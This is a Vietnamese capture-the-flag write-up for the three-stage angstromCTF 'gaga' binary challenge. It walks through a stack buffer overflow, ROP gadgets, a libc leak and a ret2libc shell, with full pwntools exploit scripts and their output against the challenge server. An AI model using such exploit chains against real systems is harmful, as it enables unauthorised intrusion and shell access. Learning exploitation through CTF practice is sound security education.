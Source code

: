 # angstrom - gaga
*chall này chứa 3 chall nhỏ cùng 3 file binary khác nhau*
## gaga0

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[60]; // [rsp+0h] [rbp-40h] BYREF
  __gid_t rgid; // [rsp+3Ch] [rbp-4h]

  setbuf(_bss_start, 0LL);
  rgid = getegid();
  setresgid(rgid, rgid, rgid);
  puts("Welcome to gaga!");
  puts("This challenge is meant to guide you through an introduction to binary exploitation.");
  printf(
    "\nRight now, you are on stage0. Your goal is to redirect program control to win0, which is at address %p.\n",
    win0);
  printf("Your input: ");
  return gets(v4);
}
```
Lỗi bof rõ ràng khi chương trình k kiểm soát độ lớn dữ liệu đầu vào, và ta có hàm win, nhiệm vụ cần làm là tìm offset khoảng cách giữa input và saved rip để overwrite địa chỉ của hàm win là ta sẽ có được phần flag đầu tiên:

```python
from pwn import *
exe = ELF('gaga0', checksec=False)
payload = b"A" * 72
payload += p64(exe.sym['win0'])
# p = process(exe.path)
p = remote('challs.actf.co', 31300)
p.recvuntil(b': ')
p.sendline(payload)
p.interactive()
```
```java
$ python3 gaga0.py
[+] Opening connection to challs.actf.co on port 31300: Done
[*] Switching to interactive mode
actf{b4by's_
[*] Got EOF while reading in interactive
$
```
## gaga1
 ```c
 void __fastcall win1(int a1, int a2)
{
  char s[136]; // [rsp+10h] [rbp-90h] BYREF
  FILE *stream; // [rsp+98h] [rbp-8h]

  if ( a1 == 0x1337 || a2 == 16705 )
  {
    stream = fopen("flag.txt", "r");
    if ( !stream )
    {
      puts("Error: missing flag.txt.");
      exit(1);
    }
    fgets(s, 128, stream);
    puts(s);
  }
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[60]; // [rsp+0h] [rbp-40h] BYREF
  __gid_t rgid; // [rsp+3Ch] [rbp-4h]

  setbuf(_bss_start, 0LL);
  rgid = getegid();
  setresgid(rgid, rgid, rgid);
  puts("Nice!");
  puts("Now you need to call the win1 function with the correct arguments.");
  printf("Your input: ");
  return gets(v4);
}
 ```
gaga1 giống gaga0 cùng là lỗi bof. Tuy nhiên hàm win của gaga1 sẽ kiểm tra đúng 2 arg của nó rồi mới in flag ra cho mình. Cũng cách cũ, ta sẽ tìm offset rồi overwrite saved rip. Tuy nhiên cần để ý một chút với 2 tham số của hàm win:

```java
0x0000000000401236 <+0>:     endbr64
0x000000000040123a <+4>:     push   rbp
0x000000000040123b <+5>:     mov    rbp,rsp
0x000000000040123e <+8>:     sub    rsp,0xa0
0x0000000000401245 <+15>:    mov    DWORD PTR [rbp-0x94],edi
0x000000000040124b <+21>:    mov    DWORD PTR [rbp-0x98],esi
0x0000000000401251 <+27>:    cmp    DWORD PTR [rbp-0x94],0x1337
0x000000000040125b <+37>:    je     0x401269 <win1+51>
0x000000000040125d <+39>:    cmp    DWORD PTR [rbp-0x98],0x4141
````
Ta cần tìm gadget để điều khiển 2 thanh ghi edi và esi để push các tham số vào

```java
0x00000000004013b1 : pop rsi ; pop r15 ; ret
...
0x00000000004013b3 : pop rdi ; ret
```
do PIE disable nên k cần phải leak binary

```java
$ checksec gaga1
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
sau đây là script mình sử dụng

```python
from pwn import *
exe = ELF('gaga1', checksec=False)
rdi = 0x4013b3
rsi = 0x4013b1
payload = b"A" * 72
payload += p64(rdi) + p64(0x1337)
payload += p64(rsi) + p64(0x4141) + p64(0)
payload += p64(exe.sym['win1'])

# p = process(exe.path)
p = remote('challs.actf.co', 31301)
input()
p.recvuntil(b': ')
p.sendline(payload)
p.interactive()
```
Remote đến server lấy phần 2 của flag

```java
$ python3 gaga1.py
[+] Opening connection to challs.actf.co on port 31301: Done
[*] Switching to interactive mode
actf{b4by's_f1rst_pwn!_
[*] Got EOF while reading in interactive
$
```
Nhưng mà có gì sai sai cứ tưởng flag được chia làm 3 phần chứ =))

## gaga2

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[60]; // [rsp+0h] [rbp-40h] BYREF
  __gid_t rgid; // [rsp+3Ch] [rbp-4h]

  setbuf(_bss_start, 0LL);
  rgid = getegid();
  setresgid(rgid, rgid, rgid);
  puts("Awesome! Now there's no system(), so what will you do?!");
  printf("Your input: ");
  return gets(v4);
}
```
Vẫn là bof tuy nhiên lần này ta không có hàm win nên phải tự tạo shell bằng các gadget và gọi được system("/bin/sh"). Nhưng trước tiên ta cần tìm ra địa chỉ base của libc để có thể gọi tới system(). Sau khi sử dụng pattern thì mình tìm đc offset để overwrite được rip là 72 và script dùng để leak libc như sau:

```python
payload = b"A" * 72
payload += p64(rdi) + p64(exe.got['puts'])
payload += p64(exe.sym['puts'])
payload += p64(exe.sym['main'])
```
Ta sẽ leak địa chỉ got của hàm puts (vì puts là hàm của libc), sau đó lại cho con trỏ quay về main để tiếp tục chương trình

```java
gef➤  got

GOT protection: Partial RelRO | GOT functions: 6

[0x404018] puts@GLIBC_2.2.5  →  0x7ffff7e4e420
...
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
...
0x00007ffff7dca000 0x00007ffff7dec000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
...
gef➤  p/x 0x7ffff7e4e420 - 0x00007ffff7dca000
$1 = 0x84420
gef➤
```
Chỉ cần lấy phần leak được rồi trừ cho 0x84420 là sẽ ra libc base. Giờ tìm các gadget cần thiết và exploit 

```java
0x00000000004013b1 : pop rsi ; pop r15 ; ret
...
0x00000000004013b3 : pop rdi ; ret
```
```python
from pwn import *
exe = ELF('gaga2', checksec=False)
libc = exe.libc
rdi = 0x00000000004012b3
rsi = 0x00000000004012b1

payload = b"A" * 72
payload += p64(rdi) + p64(exe.got['puts'])
payload += p64(exe.sym['puts'])
payload += p64(exe.sym['main'])

# p = process(exe.path)
p = remote('challs.actf.co', 31302)
input()
p.recvuntil(b': ')
p.sendline(payload)
leak = u64(p.recv(6).ljust(8, b'\0'))
libc.address = leak - 0x84420
log.info("libc: " +  hex(libc.address))

payload = b"A" * 72
payload += p64(rdi) + p64(next(libc.search(b"/bin/sh")))
payload += p64(rsi) + p64(0) + p64(0)
payload += p64(libc.sym['system'])
p.recvuntil(b': ')
p.sendline(payload)
p.interactive()
```
```java
$ python3 gaga2.py
[+] Opening connection to challs.actf.co on port 31302: Done
[*] libc: 0x7fae14e41000
[*] Switching to interactive mode
$ whoami
whoami: cannot find name for user ID 1000
$ ls
flag.txt
run
$ cat flag.txt
actf{b4by's_f1rst_pwn!_3857ffd6bfdf775e}
$
```
`flag: actf{b4by's_f1rst_pwn!_3857ffd6bfdf775e}`

*chỉ cần solve gaga2 là có flag rồi giải 2 cái đầu chi cho tốn công :v*
